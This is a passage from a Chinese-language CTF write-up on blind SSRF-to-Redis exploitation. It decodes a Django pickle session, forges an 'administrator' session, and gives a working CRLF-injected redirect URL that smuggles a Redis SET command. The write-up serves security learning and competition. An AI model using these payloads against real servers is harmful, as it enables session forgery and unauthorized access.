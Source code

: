 那我们这里再次成功进行了ssrf漏洞，但是对redis的攻击类似与盲注，我们无法看到结果。

#### 3.盲打redis

这里，我们根据前面nginx目录穿越的**源码**，本地搭建环境，并安装[django-redis-sessions](https://github.com/martinrusev/django-redis-sessions)。

先访问本地，之后查看redis储存的键值对。

```
redis-cli
keys *
get xxxxxxxxxx
```

看到返回的字符串像是经过base64后的：`NzVjZmFlYmY5MmMzNmYyYjRiNDlmODIzYmVkMThjNWU1YWI0NzZkYTqABJUbAAAAAAAAAH2UjARuYW1llIwNMTkzMGVhMzFlNDFmMJRzLg==`

尝试解码：

```
➜  ~ ipython
Python 3.6.2 (default, Jul 20 2017, 03:52:27) 
Type 'copyright', 'credits' or 'license' for more information
IPython 6.2.1 -- An enhanced Interactive Python. Type '?' for help.

In [1]: import base64

In [2]: a = "NzVjZmFlYmY5MmMzNmYyYjRiNDlmODIzYmVkMThjNWU1YWI0NzZkYTqABJUbAAAAAAAAAH2U
   ...: jARuYW1llIwNMTkzMGVhMzFlNDFmMJRzLg=="

In [3]: base64.b64decode(a)
Out[3]: b'75cfaebf92c36f2b4b49f823bed18c5e5ab476da:\x80\x04\x95\x1b\x00\x00\x00\x00\x00\x00\x00}\x94\x8c\x04name\x94\x8c\r1930ea31e41f0\x94s.'
```

对比网页里的`hello, uesr: 1930ea31e41f0`，我们可以把用户名替换为`administrator`。

于是通过分析代码逻辑，修改sess.py，不产生随机字符串而是直接返回`administrator`。于是我们清除cookie，重新启动本地的django并监控redis：`redis-cli monitor`，得到`administrator`的序列化字符串`"OGIzY2Y0ZWFkOGI1MzExZDdlMDRkYjNiOGM0NWM2MGM3YWRhOWJjMDqABJUbAAAAAAAAAH2UjARuYW1llIwNYWRtaW5pc3RyYXRvcpRzLg=="`

（比赛中还有一种序列化后的payload：YTE2NjY4ZWQ0MGRiOWM3NDhhYzY2NTcwMjljN2ZhMWRkNTgwZjBiYjqAAn1xAVgEAAAAbmFtZXECWA0AAABhZG1pbmlzdHJhdG9ycQNzLg==

所以我们可以通过http头部注入执行redis命令，创建用户名为`administrator`的键值对。

我们云服务器端的302跳转地址如下：`http://127.0.0.1%0d%0aset%206z78up4prpcderqrsq0rce35wwdnhg50%20OGIzY2Y0ZWFkOGI1MzExZDdlMDRkYjNiOGM0NWM2MGM3YWRhOWJjMDqABJUbAAAAAAAAAH2UjARuYW1llIwNYWRtaW5pc3RyYXRvcpRzLg==%0d%0ax-leftover:%20:6379/`,拆开看，即`set 6z78up4prpcderqrsq0rce35wwdnhg50 OGIzY2Y0ZWFkOGI1MzExZDdlMDRkYjNiOGM0NWM2MGM3YWRhOWJjMDqABJUbAAAAAAAAAH2UjARuYW1llIwNYWRtaW5pc3RyYXRvcpRzLg==`

但是这里实际上有一个坑，url太长会报错：`UnicodeError: label empty or too long`，报错的文件在`/usr/lib/pythonx.x/encodings/idna.py`，报错在这里：
```
        if 0 < len(label) < 64:
            return label
        raise UnicodeError("label empty or too long")
```
